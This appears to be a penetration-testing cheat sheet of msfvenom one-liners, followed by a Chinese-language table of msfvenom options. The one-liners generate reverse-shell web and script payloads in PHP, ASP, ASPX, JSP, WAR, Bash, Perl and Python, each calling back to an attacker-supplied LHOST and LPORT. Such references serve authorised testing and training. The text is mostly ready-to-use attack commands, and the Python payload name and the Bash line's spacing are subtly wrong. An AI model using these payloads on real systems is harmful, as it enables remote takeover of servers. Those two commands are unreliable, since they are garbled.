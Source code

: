 - PHP　

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```

- Asp

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f aspx > shell.asp
```

- Aspx

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f aspx > shell.aspx
```

- JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

- War

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

- Bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On>-f raw > shell.sh
```

- perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

- Python

```
msfvenom -p python/meterpreter/reverser_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```



## 参数一览

```
-l, --list           <type>              列出指定类型的所有模块 类型包括: payloads, encoders, nops, platforms, archs, formats, all

-p, --payload   <payload>       指定需要使用的payload(有效载荷)(--list payloads得到payload列表,--list-options得到指定payload的参数)                                                    如果需要使用自定义的payload,请使用'-'或者stdin指定
      --list-options                     列出指定payload的标准,高级和规避选项  例如:msfvenom -p generic/shell_bind_tcp --list-options                                                                 将列出shell_bind_tcp这个payload的各种选项信息

-f, --format        <format>        指定输出格式(使用 --list formats 列出所有的格式)

-e, --encoding   <encoder>     要使用的编码(使用 --list encoders 列出所有的编码) 用于编码加密
     --smallest                           使用所有可用的编码器生成尽可能小的有效负载
```